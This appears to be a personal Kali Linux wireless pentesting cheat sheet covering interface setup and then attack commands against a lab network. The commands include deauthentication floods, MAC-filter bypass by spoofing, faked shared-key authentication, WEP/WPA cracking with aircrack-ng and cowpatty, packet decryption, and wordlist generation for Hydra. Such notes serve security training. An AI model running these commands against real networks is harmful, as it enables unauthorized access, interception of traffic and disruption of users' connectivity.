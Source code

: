 # Wireless Basics in Kali Linux

## View Wireless Devices

To view the wireless devices and confirm the card has been detected:

```sh
ip link
```

## Start or Stop an Access Point

To start or stop an access point and verify the status:

```sh
iw dev ap stop
iw dev ap start
ip link
```

Look for `UP` in the output to confirm the access point is active.

## Bring Wireless Card Up or Down

To bring the wireless card up or down:

```sh
ip link set <device> up
ip link set <device> down
```

For example, to bring the `wlan0` card up:

```sh
ip link set wlan0 up
```

## Verify and Manage Wireless Cards

To verify detection of the card:

```sh
airmon-ng
```

To check for processes that could interfere:

```sh
airmon-ng check
```

To kill those processes:

```sh
airmon-ng check kill
```

To put a device in monitor mode and verify:

```sh
airmon-ng start <device>
airmon-ng stop <device>
```

## Restart Network Services

To restart network services that may have been stopped:

```sh
service NetworkManager start
service wpa_supplicant start
```

## Find Hidden SSID

1. Wait for legitimate ProbeRequests and read out SSID.
2. Find out the MAC address and launch a deauthentication attack to force clients to reconnect and send a Probe Package:

    ```sh
    sudo aireplay-ng -0 5 -a 3C:84:6A:DF:AB:7C --ignore-negative wlan0mon
    ```

    - `-0` specifies a deauthentication attack.
    - `5` is the number of deauthentication packets to send.
    - `-a` specifies the MAC address.

3. Use the following filter in Wireshark to see non-Beacon traffic:

    ```sh
    (wlan.bssid == <MAC>) && !(wlan.fc.type_subtype == 0x08)
    ```

## Orient in Network and Find MAC and Device Type

To capture current networks and clients in the area:

```sh
sudo airodump-ng wlan0mon
```

- Press `a` to navigate through filters.
- To look up a device, go to `sta only`, copy the first 3 hex fields (e.g., `E8:FD:F8`), and paste it into [Wireshark OUI Lookup](https://www.wireshark.org/tools/oui-lookup.html). For example, it might say "Shanghai High-Flying Electronics Technology Co., Ltd."

In `airodump`, press `TAB` to select an AP, use arrow keys to navigate, and press `m` to mark the AP with a color. All clients connected to this AP will have the same color.

Press `s` to sort by attributes like signal strength or MAC address.

To create multiple output files for analysis:

```sh
sudo airodump-ng wlan0mon -w output
```

## Visualize Network Topology with Airgraph-ng

To visualize network topology:

```sh
sudo airgraph-ng -i test-01.csv -o capture.png -g CAPR
```

- `-i` specifies the input CSV file.
- `-o` specifies the output image file.
- `-g` specifies the type of graph output (`CAPR` for client-access point relationship). Other options include `CPG` for common probe graph.

## Beat MAC Filters

To bypass MAC filters:

1. Run `airodump-ng` to find a whitelisted MAC address and spoof it:

    ```sh
    sudo airodump-ng -c 3 -a --bssid 3C:84:6A:DF:AB:7C wlan0mon
    ```

    For example, you might find `A8:93:4A:F2:C1:7D`.

2. Change the MAC address and connect to the network:

    ```sh
    sudo ifconfig wlan0 down
    sudo macchanger -m A8:93:4A:F2:C1:7D wlan0
    sudo ifconfig wlan0 up
    sudo iwconfig wlan0 essid "Wireless Lab"
    ```

    Check if it works by running:

    ```sh
    iwconfig wlan0
    ```

## Bypass Shared Authentication

To sniff packets between AP and client:

```sh
sudo airodump-ng wlan0mon --bssid 3C:84:6A:DF:AB:7C --channel 11 --write keystream
```

Wait for the client to connect or force a reconnect. Look for AUTH column data in `airodump`. 

To fake the shared authentication and connect:

```sh
sudo aireplay-ng -1 0 -e "Wireless Lab" -y keystream-01-3C-84-6A-DF-AB-7C.xor -a 3C:84:6A:DF:AB:7C -h AA:AA:AA:AA:AA:AA wlan0mon
```

To use a wrapper script for multiple attempts:

```sh
chmod +x ddoswrapper.sh
sudo ./ddoswrapper.sh --ssid "AA:AA:AA:AA:AA:AA" --attempts 100
```

Replace `100` with the number of attempts you want.

## Crack WEP

1. Run `airodump-ng` to find the target router's MAC address and channel:

    ```sh
    sudo airodump-ng wlan0mon
    ```

2. Capture data with:

    ```sh
    sudo airodump-ng -c 3 -a --bssid 3C:84:6A:DF:AB:7C wlan0mon --write WEPDemo
    ```

    Replace `3C:84:6A:DF:AB:7C` with the MAC address and `3` with the channel.

3. Replay ARP packets:

    ```sh
    sudo aireplay-ng -3 -b 3C:84:6A:DF:AB:7C -h a8:93:4a:f2:c1:7d --ignore-negative-one wlan0mon
    ```

4. Crack the WEP key:

    ```sh
    aircrack-ng WEPDemo-02.cap
    ```

## Crack WPA/WPA2 Networks Using PSK

1. Find the target router's MAC address and channel:

    ```sh
    sudo airodump-ng wlan0mon
    ```

2. Capture WPA/WPA2 data:

    ```sh
    sudo airodump-ng -c 5 -a --bssid 3C:84:6A:DF:AB:7C wlan0mon --write WPACrackingDemo
    ```

3. Force clients to reconnect or wait for new connections:

    ```sh
    sudo aireplay-ng --deauth 1 -a 3C:84:6A:DF:AB:7C wlan0mon --ignore-negative-one
    ```

4. Crack the WPA/WPA2 passphrase:

    ```sh
    sudo aircrack-ng WPACrackingDemo-01.cap -w /usr/share/wordlists/nmap.lst
    ```

    Use a wordlist that fits your region or known information.

## Speed Up the Cracking Process

1. Precalculate the PMK using `genpmk`:

    ```sh
    sudo genpmk -f /usr/share/wordlists/nmap.lst -d PMK-WirelessLab -s "Wireless Lab"
    ```

2. Crack the WPA/WPA2 passphrase using `cowpatty`:

    ```sh
    cowpatty -d PMK-WirelessLab -s "Wireless Lab" -r WPACrackingDemo-01.cap
    ```

## Decrypt WPA Packets

To decrypt captured WPA packets:

```sh
sudo airdecap-ng -p abcdefgh -e "Wireless Lab" WPACrackingDemo-01.cap
```

The decrypted packets will be saved in `WPACrackingDemo-01-dec.cap` for analysis with Wireshark or `tshark`:

```sh
tshark -r WPACrackingDemo-01-dec.cap
```

## Crack HTTP Authentication with Hydra

1. Create a wordlist:

    ```sh
    sudo crunch 8 8 abcdefghi -o testWordlist.txt
    ```

2. Analyze the webpage to understand how it processes the password (POST or GET request).

3. Use Hydra to crack HTTP authentication with the generated wordlist.